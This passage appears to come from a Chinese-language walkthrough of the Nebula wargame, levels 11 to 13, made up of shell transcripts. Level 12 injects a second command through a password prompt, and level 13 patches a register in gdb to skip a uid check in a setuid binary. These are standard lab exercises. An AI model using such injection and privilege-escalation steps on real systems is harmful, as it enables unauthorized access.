 ```bash
level11@nebula:~$ ls
a.c  a.out  data
level11@nebula:~$ cat data
Content-Length: 1143
ssh-rsa xxx
ssh-rsa xxx
ssh-rsa xxx
level11@nebula:~$ export TEMP=/tmp
level11@nebula:~$ (sleep 10; cat data) | /home/flag11/flag11
blue = 1143, length = 1143, pink = 1024
blue = 119, length = 1143, pink = 119
sh: $'\004': command not found
level11@nebula:~$ ssh flag11@localhost
flag11@nebula:~$ getflag
You have successfully executed getflag on a target account
```

另一个窗口

```bash
level11@nebula:~$ ps auxww | grep flag11
flag11   15581  0.0  0.0   1816   248 pts/0    S+   10:14   0:00 /home/flag11/flag11
level11  15584  0.0  0.0   4184   792 pts/1    S+   10:14   0:00 grep --color=auto flag11
level11@nebula:~$ ./a.out 15581
```

## Level 12

没用过 Lua，不过我猜和 level 02 差不多。

```bash
level12@nebula:~$ nc 127.0.0.1 50001
Password: ; getflag | tee /tmp/f12
Better luck next time
level12@nebula:~$ cat /tmp/f12
You have successfully executed getflag on a target account
```

## Level 13

看样子 token 是放在 setuid bin 里了，直接把 bin 塞进 gdb 里运行，在判断处加个断点改个寄存器值让它继续执行下去。

```bash
level13@nebula:~$ gdb /home/flag13/flag13
Reading symbols from /home/flag13/flag13...(no debugging symbols found)...done.
(gdb) disassemble main
Dump of assembler code for function main:
   0x080484ef <+43>:    call   0x80483c0 <getuid@plt>
   0x080484f4 <+48>:    cmp    $0x3e8,%eax
   0x080484f9 <+53>:    je     0x8048531 <main+109>
   0x080484fb <+55>:    call   0x80483c0 <getuid@plt>
(gdb) b *0x080484f4
Breakpoint 1 at 0x80484f4
(gdb) r
Starting program: /home/flag13/flag13

Breakpoint 1, 0x080484f4 in main ()
(gdb) set $eax=0x3e8
(gdb) c
Continuing.
your token is b705702b-76a8-42b0-8844-3adabbe5ac58
[Inferior 1 (process 16001) exited with code 063]
(gdb) quit
level13@nebula:~$ su flag13
Password:
```